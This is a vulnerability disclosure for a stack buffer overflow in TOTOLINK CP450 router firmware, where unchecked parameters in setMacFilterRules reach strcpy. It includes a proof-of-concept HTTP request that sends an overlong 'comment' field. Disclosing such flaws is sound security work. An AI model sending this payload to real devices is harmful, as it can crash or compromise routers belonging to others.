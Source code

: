 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setMacFilterRules`, attackers can post the parameter `comment` and `schEnable` to `v10` and `v11` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 58 and 59, the call to function `strcpy` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 331
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/firewall/mac_filtering.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setMacFilterRules",
    "addEffect": "0",
    "MacAddress": "00:1A:2B:3C:4D:5E",
    "comment": "X"*0x100
}
```

![image-20240421163827190](./img/2.png)
